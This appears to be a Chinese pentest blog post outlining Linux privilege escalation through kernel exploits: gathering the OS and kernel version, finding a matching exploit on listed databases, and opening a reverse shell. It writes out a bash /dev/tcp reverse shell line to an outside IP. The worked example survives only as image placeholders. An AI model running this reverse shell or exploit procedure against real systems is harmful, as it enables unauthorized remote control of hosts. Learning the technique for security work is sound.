 +++
date = "2016-08-09T19:23:13+08:00"
description = ""
draft = false
tags = ["elevate privileges"]
title = "Linux下系统漏洞提权"
topics = ["Pentest"]

+++

### 0x00 Linux下的提权
> Linux下一般都是系统漏洞提权，分为以下几个步骤：
```
1. 获取系统版本号
2. 根据系统版本号找对应exp
3. 反弹shell
4. 尝试利用
```

### 0x01 提权
* 获取系统版本号
    * 获取发行版本
        * cat /etc/*-release
        * cat /etc/issue
        * cat /etc/lsb-release
        * cat /etc/redhat-release
    * 获取内核版本
        * cat /proc/version
        * uname -a
        * uname -mrs
        * rpm -q kernel
        * dmesg | grep Linux
        * ls /boot | grep vmlinuz
* 根据系统版本号找对应exp
    * http://www.exploit-db.com
    * http://1337day.com
    * http://www.securiteam.com
    * http://www.securityfocus.com
    * http://www.exploitsearch.net
    * http://metasploit.com/modules
    * http://securityreason.com
    * http://seclists.org/fulldisclosure
    * http://www.google.com
* 反弹shell
    * 本地：```nc -l -p 8888```
    * 目标机器：```/bin/bash -i >& /dev/tcp/10.10.10.10/8888 0>&1```
* 尝试利用

### 0x02 实例
* 得到系统版本号
{{% fluid_img src="/img/post/privilge_escalation_linux_get_sys_version.png" alt="得到系统版本号.png" %}}
* 找对应exp
{{% fluid_img src="/img/post/privilge_escalation_linux_search_exp.png" alt="找相应exp.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_exp_code.png" alt="保存exp源码.png" %}}
* 反弹shell
{{% fluid_img src="/img/post/privilge_escalation_linux_webshell_rebound_shell.png" alt="反弹shell.png" %}}
* 提权
{{% fluid_img src="/img/post/privilge_escalation_linux_write_exp_code.png" alt="下载exp源码.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_compile_exp_code.png" alt="编译exp源码.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_run_exp.png" alt="运行exp.png" %}}
